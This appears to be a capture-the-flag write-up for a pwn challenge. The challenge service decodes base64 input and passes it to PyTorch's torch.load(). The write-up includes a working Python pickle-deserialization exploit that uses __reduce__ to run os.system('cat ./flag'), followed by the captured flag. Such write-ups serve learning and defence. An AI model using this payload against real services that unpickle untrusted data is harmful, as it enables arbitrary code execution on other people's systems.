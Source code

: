 # memecontrol - pwn

I have no idea what the code does. All I know is it decodes the base64 input then pass it to `torch.load()` function

> torch.load() unless weights_only parameter is set to True, uses pickle module implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. Only load data you trust.

PyTorch uses `pickle` to decerialize the data. We all know `pickle` is vulnerable decerialization attack. We can construct malicious pickle data which will execute arbitrary code on the server.

### Exploit: 

```py
# Copied from https://davidhamann.de/2020/04/05/exploiting-python-pickle/
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('cat ./flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Flag: `midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}`
